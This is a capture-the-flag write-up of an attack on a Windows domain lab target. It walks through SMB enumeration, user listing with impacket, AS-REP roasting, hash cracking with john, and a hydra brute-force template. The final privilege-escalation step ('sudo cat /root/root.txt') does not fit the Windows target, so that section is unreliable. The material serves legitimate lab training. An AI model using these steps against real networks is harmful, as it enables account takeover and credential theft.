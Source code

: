 ```yaml
---
layout: post
author: Fr4nSec
tags: [Windows, SMB,]
---
```


CTF challenge having a Windows target. SMB is key to solve it.

## Objectives

- Obtain the user flag
- Obtain the system flag (root)

## Recon

Let's scan the target IP address..

```
nmap -p- -sS --min-rate 5000 -n -Pn 10.10.216.196
```
![scan1](/images/scan1.jpg)

Once we have a list of open ports, let's scan those ports more in depth.

```
nmap -p 53,135,139,389,445,464,636,3268,5985,9389 -sCV 10.10.216.196 > PortScan
cat PortScan
```

![scan2](/images/scan2.jpg)

We can see some information like domain name and the host.

- Domain: vulnnet-rst.local0
- Host: WIN-2BO8M1OE1M1

Port 445 (SMB) is open. Let's see what we can retrieve from there.

```
smbmap -H 10.10.216.196 -u anonymous
```

![smb1](/images/smb1.jpg)



## Exploitation

IPC$ seems to be readable. That means we might be able to ennumerate names of domain accounts. Let's try:

```
impacket-lookupsid anonymous@10.10.216.196
```

![smb2](/images/smb2.jpg)

We can see some user names, let's strip out the data we don't need. Copy the result to a file and run the below to keep only the user names.

```
cat fullinfo.txt | grep SidTypeUser | awk -F'\' '{print $2}' | awk -F'(' '{print $1}'
```

![users1](/images/users.jpg)

Now, having a list of users, let's try to harvest AS_REP responses to see if we can get a hash. (The IP changed because i had to restart the target machine).

```
impacket-GetNPUsers 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip 10.10.171.250
```
![hash1](/images/hash1.jpg)

We obtained the hash for the user t-skid. We can try brute force it:

```
john hash1 --wordlist=/home/kali/rockyou.txt 
```

![crackedhash](/images/crackedhash.jpg)




```
hydra -l <user> -P <password list> <IP Address> ssh
```



## Privilege escalation

Let's check if sudo has any additional configuration..

```
sudo cat /root/root.txt
```
